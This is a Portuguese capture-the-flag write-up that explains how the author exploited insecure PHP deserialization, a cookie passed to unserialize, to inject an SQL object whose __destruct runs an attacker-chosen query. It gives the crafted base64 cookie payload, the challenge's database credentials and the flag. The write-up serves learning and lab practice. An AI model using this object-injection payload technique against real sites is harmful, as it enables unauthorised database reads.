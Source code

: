 # Objetos mágicos

**Flag:** `Ganesh{pHp_!s_Fkn_bR@k3n}`

Ao enviar ids para o site e realizar a busca percebi que o id _2_ possuía o username de _flag_, o que chamou a atenção.

Então fui olhar os source codes do site, fornecidos.

Inicialmente olhei na seguinte parte do código \(`source1.txt`\), pensando que poderia quebrar alguma coisa:

```php
if (isset($_REQUEST['id']) && is_numeric($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } 
    catch (Exception $e) {
        echo 'Invalid query';
    }
}
```

Mas após muitas tentativas \(inclusive de tentar converter uma string para URL encode, tentando burlar a função `ìs_numeric`\), percebi que provavelmente esse não fosse o caminho.

Então passei a olhar para a outra parte do mesmo código \(`source1.txt`\):

```php
if (isset ($_COOKIE['h4ck_m3'])) {
    $sess_data = unserialize(base64_decode($_COOKIE['h4ck_m3']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die("We are secure, you can't hack us!!");
        }
    } 
    catch (Exception $e) {
        echo $e;
    }
} 
else {
    $cookie = base64_encode(serialize(array( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('h4ck_m3', $cookie, time () + (86400 * 30));
}
```

Entendi que isso era uma verificação por meio de cookies para evitar \(ou tentar\) que fosse possível uma SQLInj.  
Então, comecei a olhar para as funções utilizadas nessa verificação e percebi que ela era feita por meio da serialização de um objeto \(array\) que possuia o ip do servidor.  
Me lembrando do top 10 da OWASP, em especial o oitavo item \(Insecure Deserialization\), pensei poder ser esse o caminho para quebrar o código.

Então fiz algumas pesquisas sobre como funciona a serialização/desserialização de objetos no PHP além de falhas relacionadas a isso. Foi quando vi que em um objeto que possui os "_magic methods_" no php \(**wakeup,** destruct, etc\), esses metodos são executados normalmente após o objeto ser desserializado. [\[Link de Base\]](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)

E pra minha sorte \(ou não\) a classe SQL executava o código da busca no método `__destruct`. Então bastava achar uma forma de colocar um objeto do tipo SQL\(\) no cookie de verificação, com a query que eu quiser, para fazer a busca pela flag.

Para isso abri um terminal do php \(`$> php - a`\) e comecei por recriar a classe para conseguir serializá-la.

```php
class SQL {
    public $query = '';
    public $conn;

    public function __construct() {}

    public function connect() {
        $servername = "localhost";
        $username = "db_user";
        $password = "w3b_4_Th3_W!n";
        $database = "cereal";

        $this->conn = new mysqli($servername, $username, $password, $database);

        if (!$this->conn)
            die("Debugging error[" . mysqli_connect_errno() . "]: " . mysqli_connect_error() . PHP_EOL);
    }

    public function SQL_query($query) {
        $this->query = $query;
        echo "QUERY:" . $this->query;
    }

    public function execute() {
        return $this->conn->query($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn))
            $this->connect();

        $ret = $this->execute();

        if ($ret !== false) {   
            echo "<h2> Resposta: </h2>";
            while ($row = $ret->fetch_assoc()) {
                echo '<p class="user"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
```

Então criei uma instancia dessa classe e coloquei nela a query que buscava a flag \(note que a flag provavelmente estava no campo password, o que me fez usar o alias do SQL\).

```php
$sql = new SQL();
$sql->query = "SELECT password as username FROM users WHERE id=2";
```

Então fui olhar nos cookies do navegador, para obter o objeto guardado no cookie "h4ck\_m3". Vendo que estava em _base64_, converti para string e depois para objeto:

```php
$data = unserialize(base64_decode("YToxOntzOjI6ImlwIjtzOjk6IjEyNy4wLjAuMSI7fQ=="));
```

Então eu obtive o objeto que é utilizado para a verificação. Bastava agora inserir o objeto SQL\(\) criado e serializar o array novamente.

```php
$data[0] = $sql;
$str = base64_encode(serialize($data));

echo $str;
```

E isso me imprimiu o resultado: `YToyOntzOjI6ImlwIjtzOjk6IjEyNy4wLjAuMSI7aTowO086MzoiU1FMIjoyOntzOjU6InF1ZXJ5IjtzOjQ5OiJTRUxFQ1QgcGFzc3dvcmQgYXMgdXNlcm5hbWUgRlJPTSB1c2VycyBXSEVSRSBpZD0yIjtzOjQ6ImNvbm4iO047fX0=`.

Agora basta editar o cookie e reenviar a request para o servidor. Ao fazer isso \(pelo próprio dev-tools do firefox\), a página retornada é a seguinte: 

![](https://i.imgur.com/1g7PyYj.png)

